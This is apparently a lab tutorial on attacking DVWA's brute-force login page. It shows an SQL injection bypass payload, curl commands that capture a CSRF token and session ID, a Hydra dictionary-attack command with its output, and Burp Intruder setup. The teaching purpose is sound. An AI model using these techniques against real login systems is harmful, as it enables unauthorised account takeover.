# Brute force

This type of vulnerability intends to demonstrate the possibility of breaking authentication mechanisms in the web application, manipulating the authentication parameters, in order to authenticate a user even without using the password or trying to guess the password through brute force techniques or using dictionaries.

As you can see in the following image, in the standard use of the authentication form, the goal is to enter the correct data, and if they fail, a message will be displayed indicating what happened.



In case the user hits on the correct credentials (the same ones defined in the DVWA installation (by default, "`admin`" and "`password`"), a welcome message is displayed to the authenticated user.

## Using SQL Injection

The idea of this attack is to overcome the logic that may be implemented in terms of access control, by manipulating it through SQL commands (assuming that the authentication system was developed using this method). In fact, this is not a true "brute-force" method, but it can be used as a "smart" way to achieve the goal of trying to overcome the barrier presented by a form with authentication.

To do this, what is intended is to try to pass a set of data to the authentication form that allows us to change the application logic in order to overcome it. Thus, we can use the following parameters to "trick" that same application logic.

    Username: admin'#
    Password: <blank>

This combination thus makes it possible to bypass the (poorly implemented) application logic, thus allowing an attacker to access the application as the application's administrator (`admin`), without requiring a password.



    // Get username 
    $user = $_GET[ 'username' ]; 

    // Get password 
    $pass = $_GET[ 'password' ]; 
    $pass = md5( $pass ); 

    // Check the database 
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';"; 

In the DVWA tool it is possible to observe the SQL query that allows implementing the validation of authentication, and it is possible to see, that with the SQL payload used, it is changed to:

    SELECT * FROM `users` WHERE user =’admin’#’ AND password = ‘’

As in SQL, the "`#`" symbol is used as a comment, in fact what is actually executed is:

    SELECT * FROM `users` WHERE user =’admin’

This results in a query that is always true, and causes authentication to proceed, without validating the user's password.



## Brute force and dictionary attacks

In fact, the previous example, as mentioned, does not use real brute-force techniques. The use of brute-force techniques involves making a significant number of attempts to try possible combinations of usernames and passwords, until one is found that effectively allows an attacker to access the system.

There are typically two types of brute-force techniques. One that is truly brute-force and tests every possible username and password combination, which is a lengthy and complex process. Another that is based on dictionaries, which tests only the combinations that are contained in them. This second approach is the one that will be used here.

For that we'll use dictionaries of passwords that we can find with some ease online. You can for example access the [following repository on GitHub](https://github.com/danielmiessler/SecLists/tree/master/Passwords) and check a huge collection of passwords and usernames that can be used to then run tests using dictionaries.

## Using Hydra to Brute Force

In this particular case we are going to use the Hydra tool to try and break access control on this DVWA page.
These first two lines serve to establish the access environment for the Hydra tool.

    CSRF=$(curl -s -c dvwa.cookie "127.0.0.1/dvwa/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)

    SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')

    curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${CSRF}&Login=Login" "127.0.0.1/dvwa/login.php"

Then it is just to execute the Hydra tool, passing as parameters the usernames and password (in files) that we want to test.

    hydra  -L ./usernames.txt  -P ./passwords.txt -e ns  -F  -u  -t 1  -w 10  -v  -V  127.0.0.1  http-get-form  "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area:H=Cookie\: security=low; PHPSESSID=${SESSIONID}"

And the result is as follows:

    Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (http://www.thc.org/thc-hydra) starting at 2015-12-11 23:38:47
    [INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
    [DATA] max 1 task per 1 server, overall 64 tasks, 187 login tries (l:11/p:17), ~2 tries per task
    [DATA] attacking service http-get-form on port 80
    [VERBOSE] Resolving addresses ... done
    [ATTEMPT] target 127.0.0.1 - login "root" - pass "root" - 1 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "admin" - pass "admin" - 2 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "test" - pass "test" - 3 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "guest" - pass "guest" - 4 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "info" - pass "info" - 5 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "adm" - pass "adm" - 6 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "mysql" - pass "mysql" - 7 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "user" - pass "user" - 8 of 187 [child 0]
    .....
    [ATTEMPT] target 127.0.0.1 - login "info" - pass "monkey" - 137 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "adm" - pass "monkey" - 138 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "mysql" - pass "monkey" - 139 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "user" - pass "monkey" - 140 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "administrator" - pass "monkey" - 141 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "oracle" - pass "monkey" - 142 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "ftp" - pass "monkey" - 143 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "root" - pass "password" - 144 of 187 [child 0]
    [ATTEMPT] target 127.0.0.1 - login "admin" - pass "password" - 145 of 187 [child 0]
    [80][http-get-form] host: 127.0.0.1   login: admin   password: password
    [STATUS] attack finished for 127.0.0.1 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (http://www.thc.org/thc-hydra) finished at 2015-12-11 23:38:48

As you can see, in the end, the correct username and passwords are found.

    [80][http-get-form] host: 127.0.0.1   login: admin   password: password
    [STATUS] attack finished for 127.0.0.1 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found

## Brute-force with Burpsuite

Another way to perform this attack is through the use of a web proxy, specifically developed for this purpose. Burp is one of these proxies that can intercept requests from the web browser destined for the web server, and to intercept responses from the web server to the browser. After this interception it is possible to launch certain types of manipulations of HTTP requests and responses. 

To carry out this type of attack, the following steps must be taken. Firstly, the web browser must be configured so that it does not connect directly to the web, but rather via a proxy.



In alternative, you may go directly into Burpsuite and select "Target". From here select "Open browser".



And a new browser window pops up.



After launching Burp Suite, you must indicate that it is working in "intercept mode". This way, the requests that arrive to the tool are intercepted, and only after manual intervention are they sent to their destination, or else they are discarded.



Next we will make a request, on the DVWA web page with authentication, using any username and password.



This request is intercepted by Burp Suite, which will then show it to the user with all the details of the request. As this request is intercepted by Burp Suite it doesn't go to its destination, and stays with Burp.



Next you need to send the request to a specific Burp module called "Intruder". To do that, just right-click and choose "Send to Intruder".



On the "Intruder" tab you must select the type of attack - in this case a "Cluster bomb" - to try to find the correct login and password combination.



Here we still need to make sure which parameters we want to test in the HTTP request, to try to find the correct "username" and "password". First we clear the automatic selections by hitting "Clear". Then we need to select the one after "username=" and after "password=" by pressing the "Add" button.



Once properly selected, go to the "Payloads" tab where you can manipulate each of the previously selected parameters. In the "Payload Sets" section, check that the "Payload set" dropbox has the same number of options as the parameters selected previously (i.e., two).

If this is correct, we now need to select the list of values to test for the "Payload Set 1", which corresponds to "username", in the "Payload Options [Simple list]" section. For this we used a file with a list of the most common usernames found online.



Next, we try to do the same for the second parameter, "Payload Set 2", which corresponds to the "password", in the "Payload Options [Simple list]" section. For this we used a file with a list of the most common passwords found online. Both lists are purposely short, to minimize testing time!



Then we can start the attack.

